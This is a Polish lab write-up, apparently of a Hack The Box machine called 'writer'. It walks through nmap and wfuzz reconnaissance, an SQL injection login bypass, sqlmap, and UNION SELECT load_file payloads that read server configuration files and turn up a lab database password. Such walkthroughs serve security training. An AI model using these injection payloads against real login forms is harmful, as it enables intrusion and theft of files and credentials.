 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)
uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test
uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test
![image](https://user-images.githubusercontent.com/52716721/143478809-566682a5-ca8f-4eb5-a72b-a2b08fc40f60.png)
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)
connector = mysql.connector.connect(user=&#39;admin&#39;, password=&#39;ToughPasswordToCrack&#39;, host=&#39;127.0.0.1&#39;, database=&#39;writer&#39;)
![image](https://user-images.githubusercontent.com/52716721/143593570-4da314d9-aa10-49db-b95c-724f8ad3a44f.png)
![image](https://user-images.githubusercontent.com/52716721/143593639-a6682460-2692-498d-8c02-b000b1827bf3.png)
![image](https://user-images.githubusercontent.com/52716721/143597265-0dc3a738-8d06-4216-8612-f284a6a84b5a.png)
![image](https://user-images.githubusercontent.com/52716721/143599339-fb5de575-7cf1-4538-8bd8-96eab3fa917c.png)









